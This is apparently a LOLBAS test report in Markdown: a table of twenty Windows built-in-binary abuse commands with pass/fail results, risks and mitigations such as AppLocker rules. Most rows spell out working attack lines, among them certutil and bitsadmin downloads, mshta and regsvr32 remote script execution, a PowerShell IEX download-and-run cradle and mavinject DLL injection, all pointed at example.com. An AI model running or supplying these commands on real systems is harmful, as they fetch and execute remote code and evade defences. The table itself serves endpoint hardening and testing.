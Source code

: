 ﻿# LOLBAS Test Report

| Command | Status | Why it's dangerous | How to mitigate |
|--------|--------|--------------------|-----------------|
| certutil -urlcache -split -f https://example.com/file.txt file.txt | âœ… Passed | Can download malicious files over HTTP | Block certutil.exe for standard users |
| bitsadmin /transfer myJob https://example.com/file.txt file.txt | âœ… Passed | Transfers files silently, often overlooked | Block or audit bitsadmin |
| mshta https://example.com/malware.hta | âœ… Passed | Executes remote scripts, can bypass defenses | Block mshta.exe with AppLocker |
| regsvr32 /s /n /u /i:https://example.com/file.sct scrobj.dll | âœ… Passed | Runs remote scriptlets (SCT), no disk footprint | Block regsvr32 or restrict internet access |
| wmic process call create "calc.exe" | âœ… Passed | Can execute any command or script | Limit wmic usage with group policies |
| rundll32 url.dll,FileProtocolHandler https://example.com | âœ… Passed | Can open URLs silently | Restrict rundll32 usage |
| powershell -Command "IEX (New-Object Net.WebClient).DownloadString('https://example.com/script.ps1')" | âœ… Passed | Download & execute remote PowerShell scripts | Constrain PowerShell, enable AMSI |
| forfiles /p c:\windows\system32 /m notepad.exe /c calc.exe | âœ… Passed | Abuses forfiles to execute commands | Restrict forfiles.exe |
| installutil /logfile= /LogToConsole=false /U https://example.com/bad.dll | âŒ Failed | Can execute code via .NET installers | Block installutil.exe for users |
| msbuild badproj.csproj | âŒ Failed | Compiles and executes malicious code | Block msbuild.exe for standard users |
| cmd /c calc.exe | âœ… Passed | Direct execution via cmd | Restrict cmd usage where possible |
| cscript //b //e:vbscript https://example.com/bad.vbs | âœ… Passed | Run remote VBScript files | Block cscript.exe / wscript.exe |
| wscript //b //e:jscript https://example.com/bad.js | âœ… Passed | Run remote JScript files | Block wscript.exe |
| hh.exe http://example.com/helpfile.chm | âœ… Passed | Executes HTML help files containing scripts | Block hh.exe |
| mavinject.exe 1234 /INJECTRUNNING bad.dll | âœ… Passed | Inject DLL into running process | Restrict mavinject to admins |
| dxcap.exe /c capture | âŒ Failed | Can be abused to load unsigned DLLs | Audit and control usage |
| at /interactive /every:M,T,W,Th,F cmd.exe | âœ… Passed | Schedules interactive task | Disable at.exe |
| esentutl /y https://example.com/payload.exe | âœ… Passed | Download file from remote | Restrict esentutl usage |
| makecab.exe file.txt file.cab | âœ… Passed | Compress & deliver malicious payloads | Audit makecab.exe usage |
| msxsl file.xml transform.xsl | âŒ Failed | Executes XSL script, can run code | Block msxsl.exe |
